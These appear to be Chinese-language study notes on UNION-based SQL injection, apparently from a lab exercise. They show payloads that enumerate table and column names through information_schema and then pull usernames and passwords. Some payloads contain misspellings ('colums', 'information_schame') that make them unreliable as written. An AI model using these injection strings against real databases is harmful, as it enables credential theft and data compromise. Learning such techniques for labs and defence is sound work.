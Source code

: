 重点 三步的查询
难点 ①对不同数据库的结构不清楚②各种参数的来回变换使用

我们逆着看 最后一步

| USERNAME | PASSWORD |
| -------- | -------- |
| admin    | 123123   |

上面的表名是USERS_XXX
```SQL
' UNION SELECT USERNAME_XXX,PASSWORD_XXX FROM USERS_XXX
```
在这之前我们先看一下MySQL的系统库结构
红色的Oracle的中有所不同的
![[数据库结构.png]]
①在系统库取到表名USERS_XXX
```SQL
' UNION SELECT table_name,NULL FROM  tables--
```
进一步
```SQL
'UNION SELECT table_name FROM information_schema.tables-- 
```
②在系统库取到列名
在系统中取到USERNAME_XXX,PASSWORD_XXX
```SQL
' UNION SELECT column_name,NULL FROM colums  WHERE table_name = 'USERS_XXX'--
```
进一步
```SQL
' UNION SELECT column_name,NULL FROM information_schema.colums  WHERE table_name = 'USERS_XXX'--
```

SELECT 后面接列名，也就是图中的第三级
FROM 后面接表名，也就是图中的第二级，但是前面一般加上information_schame

